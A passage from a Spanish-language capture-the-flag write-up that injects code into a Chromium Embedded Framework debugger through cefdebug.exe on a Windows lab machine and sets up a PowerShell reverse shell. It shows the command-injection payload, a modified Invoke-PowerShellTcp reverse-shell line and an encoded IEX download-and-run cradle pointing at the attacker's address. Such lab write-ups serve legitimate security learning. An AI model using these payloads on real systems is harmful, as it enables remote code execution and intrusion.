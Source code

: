 Siguiendo la guía voy a conectarme con una de estas URLs para tratar de inyectar un comando

```null
*Evil-WinRM* PS C:\Temp> .\cefdebug.exe --url "ws://127.0.0.1:25684/45d6f118-eab6-42c5-88e3-ef39fbbdef09" --code "process.mainModule.require('child_process').exec('ping -n 1 10.10.16.6')"
cefdebug.exe : [2023/01/25 05:23:16:2435] U: >>> process.mainModule.require('child_process').exec('ping -n 1 10.10.16.6')
    + CategoryInfo          : NotSpecified: ([2023/01/25 05:... 1 10.10.16.6'):String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2023/01/25 05:23:16:2435] U: <<< ChildProcess
```

Si me pongo en escucha de trazas ICMP, recibo el paquete

```null
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:16:15.827782 IP 10.10.10.179 > 10.10.16.6: ICMP echo request, id 1, seq 5, length 40
13:16:15.827825 IP 10.10.16.6 > 10.10.10.179: ICMP echo reply, id 1, seq 5, length 40
```

Me pongo en escucha con netcat por el puerto 443 y con ConPtyShell me entablo una revershell a mi equipo

Retoco el script para que me lo ejecute nada más ser interpretado. Para ello, añado una línea con la sentecia que se tiene que aplicar

```null
cat Invoke-PowerShellTcp.ps1 | tail -n 1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.6 -Port 443
```

Monto un servicio http con python para compartirme el script

```null
python3 -m http.server 80
```

Para evitar problemas de comillas u otros caracteres y no tener que escaparlos, convierto el comando a base64 con el encoder UTF-16le, que es el que usa powershell. Separa cada caracter por un punto, aunque de primeras no es visible

```null
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/Invoke-PowerShellTcp.ps1')" | iconv -t utf-16le | xxd
00000000: 4900 4500 5800 2800 4e00 6500 7700 2d00  I.E.X.(.N.e.w.-.
00000010: 4f00 6200 6a00 6500 6300 7400 2000 4e00  O.b.j.e.c.t. .N.
00000020: 6500 7400 2e00 5700 6500 6200 4300 6c00  e.t...W.e.b.C.l.
00000030: 6900 6500 6e00 7400 2900 2e00 6400 6f00  i.e.n.t.)...d.o.
00000040: 7700 6e00 6c00 6f00 6100 6400 5300 7400  w.n.l.o.a.d.S.t.
00000050: 7200 6900 6e00 6700 2800 2700 6800 7400  r.i.n.g.(.'.h.t.
00000060: 7400 7000 3a00 2f00 2f00 3100 3000 2e00  t.p.:././.1.0...
00000070: 3100 3000 2e00 3100 3600 2e00 3600 2f00  1.0...1.6...6./.
00000080: 4900 6e00 7600 6f00 6b00 6500 2d00 5000  I.n.v.o.k.e.-.P.
00000090: 6f00 7700 6500 7200 5300 6800 6500 6c00  o.w.e.r.S.h.e.l.
000000a0: 6c00 5400 6300 7000 2e00 7000 7300 3100  l.T.c.p...p.s.1.
000000b0: 2700 2900                                '.).
```
